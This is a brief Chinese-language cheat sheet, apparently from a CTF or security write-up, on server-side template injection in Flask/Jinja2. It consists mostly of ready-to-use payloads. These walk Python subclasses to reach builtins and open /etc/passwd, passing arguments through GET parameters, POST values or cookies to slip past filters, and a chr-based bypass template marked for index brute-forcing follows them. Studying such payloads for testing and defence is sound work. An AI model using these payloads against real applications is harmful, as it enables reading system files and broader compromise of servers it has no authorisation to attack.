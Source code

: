 ```go
request.args.name



request.cookies.name



request.headers.name



request.values.name



request.form.name
```

payload如下

`GET`方式，利用`request.args`传递参数

```go
{{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}&arg1=open&arg2=/etc/passwd
```

`POST`方式，利用`request.values`传递参数

```go
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.values.arg1](request.values.arg2).read()}}



post:arg1=open&arg2=/etc/passwd
```

`Cookie`方式，利用`request.cookies`传递参数

```go
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.cookies.arg1](request.cookies.arg2).read()}}



Cookie:arg1=open;arg2=/etc/passwd
```

剩下两种方法也差不多，这里就不赘述了

- chr绕过

```go
{{().__class__.__base__.__subclasses__()[§0§].__init__.__globals__.__builtins__.chr}}
```
